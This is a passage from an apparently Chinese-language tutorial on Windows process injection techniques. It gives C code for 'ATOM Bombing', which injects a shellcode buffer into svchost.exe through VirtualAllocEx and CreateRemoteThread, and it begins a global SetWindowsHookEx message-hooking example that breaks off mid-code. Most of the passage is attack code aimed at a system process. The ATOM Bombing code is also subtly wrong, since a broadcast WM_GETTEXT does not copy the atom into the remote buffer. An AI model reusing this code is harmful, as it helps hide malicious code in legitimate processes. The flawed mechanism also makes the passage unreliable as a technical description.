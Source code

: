  ** **说明:  ****ATOM
Bombing是一种利用全局ATOM表的代码注入技术，ATOM表是Windows提供的用于存储字符串和相应标识符的特性。攻击者可以使用ATOM表编写恶意代码，然后强制合法进程检索并执行它。

  * 

    
    
    atom_bomb.exe svchost.exe

https://github.com/BreakingMalwareResearch/atom-bombing

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    #include <windows.h>#include <stdio.h>  
    int main() {    ATOM atom;    DWORD processID;    HANDLE hProcess;    HANDLE hThread;    LPVOID remoteBuffer;  
        // Sample shellcode for demonstration purposes    char shellcode[] = {        // ... Your shellcode goes here ...    };  
        // Register the shellcode in the global ATOM table    atom = GlobalAddAtomA(shellcode);    if (!atom) {        printf("Failed to add shellcode to ATOM table.\n");        return 1;    }  
        // Assuming you've already obtained the PID of svchost.exe    printf("Enter the PID of svchost.exe: ");    scanf("%d", &processID);  
        // Open the target process    hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, processID);    if (!hProcess) {        printf("Failed to open target process.\n");        return 1;    }  
        // Allocate memory in the target process    remoteBuffer = VirtualAllocEx(hProcess, NULL, sizeof(shellcode), MEM_COMMIT, PAGE_EXECUTE_READWRITE);    if (!remoteBuffer) {        printf("Failed to allocate memory in target process.\n");        CloseHandle(hProcess);        return 1;    }  
        // Force the target process to retrieve the shellcode from the ATOM table    if (!SendMessageA(HWND_BROADCAST, WM_GETTEXT, sizeof(shellcode), (LPARAM)remoteBuffer)) {        printf("Failed to send message to target process.\n");        VirtualFreeEx(hProcess, remoteBuffer, 0, MEM_RELEASE);        CloseHandle(hProcess);        return 1;    }  
        // Create a remote thread in the target process to execute the shellcode    hThread = CreateRemoteThread(hProcess, NULL, 0, (LPTHREAD_START_ROUTINE)remoteBuffer, NULL, 0, NULL);    if (!hThread) {        printf("Failed to create remote thread in target process.\n");        VirtualFreeEx(hProcess, remoteBuffer, 0, MEM_RELEASE);        CloseHandle(hProcess);        return 1;    }  
        // Cleanup    GlobalDeleteAtom(atom);    CloseHandle(hThread);    CloseHandle(hProcess);  
        printf("ATOM Bombing successful.\n");    return 0;}

 **16\. Window Message Hooking**

 ** **说明:  ****Window Message Hooking 实现这一点的一个常用方法是使用Windows
API提供的函数。此函数允许您设置钩子子程，以便在某些类型的消息到达目标窗口子程之前监视系统。SetWindowsHookEx

  * 

    
    
    hookmsg.exe svchost.exe

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    #include <windows.h>#include <stdio.h>  
    // Global variablesHINSTANCE hInstance;HHOOK hHook;  
    // Hook procedureLRESULT CALLBACK MessageHookProc(int nCode, WPARAM wParam, LPARAM lParam) {    if (nCode >= 0) {        // Intercept messages here        MSG *msg = (MSG *)lParam;        if (msg->message == WM_SOME_MESSAGE) { // Replace WM_SOME_MESSAGE with a real message identifier            // Handle or modify the message            printf("Intercepted a window message!\n");        }    }    return CallNextHookEx(hHook, nCode, wParam, lParam);}  
    BOOL SetHook() {    hHook = SetWindowsHookEx(WH_GETMESSAGE, MessageHookProc, hInstance, 0);    return (hHook != NULL);}  
    BOOL UnsetHook() {    return UnhookWindowsHookEx(hHook);}  
    int main() {    hInstance = GetModuleHandle(NULL);  
        if (!SetHook()) {        printf("Failed to set hook.\n");        return 1;    }  
        printf("Hook set successfully. Press any key to unhook...\n");    getchar();  
        if (!UnsetHook()) {        printf("Failed to unset hook.\n");        return 1;    }  